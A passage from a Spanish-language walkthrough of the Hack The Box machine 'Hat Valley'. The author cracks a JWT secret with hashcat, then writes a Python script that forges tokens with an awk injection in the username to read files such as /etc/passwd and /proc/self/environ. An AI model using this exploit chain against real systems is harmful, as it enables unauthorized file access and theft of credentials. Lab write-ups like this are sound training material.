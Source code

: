 Se está ejecutando el comando ```awk```, y el campo del usuario que le está concatenando, puedo controlarlo como input, por lo que es posible una inyección que me permita obtener un LFI. El único inconveniente, es que hay una lista de badchars que no puedo introducir. Además, para poder modificar el JWT, necesito obtener el secreto

Es posible llegar a crackearlo utilizando ```hashcat```

```null
hashcat hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

16500 | JWT (JSON Web Token) | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc5NTkwNzExfQ.aopS9-01swwY-nTnRy6ncur6wZwgEPK3QnG4aDibq5s:123beany123
```

Creo un script en python que me permita generar automáticamente el JWT para leer archivos de la máquina

```null
#!/usr/bin/python3

import requests, jwt, sys

secret = "123beany123"
username = {"username": f"/' {sys.argv[1]} '/test"}
token = jwt.encode(username, secret)

main_url = "http://hat-valley.htb/api/all-leave"
cookies = {
    "token": "%s" % token
}

r = requests.get(main_url, cookies=cookies)
print(r.text)
```

```null
python3 lfi.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Desde el ```/proc/self/environ``` puedo ver que el usuario que está ejecutando el servicio web es ```www-data```

```null
python3 lfi.py /proc/self/environ
pm_out_log_path=/var/www/.pm2/logs/server-out.logSUDO_GID=0MAIL=/var/mail/www-dataLANGUAGE=en_AU:enUSER=www-datarestart_time=0PM2_USAGE=CLIusername=www-dataHOME=/var/wwwPM2_HOME=/var/www/.pm2created_at=1679571106074pm_cwd=/var/www/hat-valley.htbnamespace=defaultfilter_env=pm_exec_path=/var/www/hat-valley.htb/serverkill_retry_time=100pm_id=1unstable_restarts=0SUDO_UID=0node_args=LOGNAME=www-dataexec_mode=fork_modeTERM=unknownwindowsHide=trueNODE_APP_INSTANCE=0axm_monitor=[object Object]status=launchingPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/binwatch=falseexec_interpreter=nodeaxm_options=[object Object]axm_dynamic=[object Object]vizion=truepm_err_log_path=/var/www/.pm2/logs/server-error.logpm_pid_path=/var/www/.pm2/pids/server-1.pidLANG=en_AU.UTF-8treekill=trueSUDO_COMMAND=/usr/local/bin/pm2 start serverpmx=trueSHELL=/usr/sbin/nologinunique_id=2084dfd2-1303-482d-8f1f-88a1f1613741automation=trueSUDO_USER=rootvizion_running=falseinstance_var=NODE_APP_INSTANCEname=serverPWD=/var/www/hat-valley.htbenv=[object Object]merge_logs=trueinstances=1km_link=falseaxm_actions=autorestart=truepm_uptime=1679571106074
```
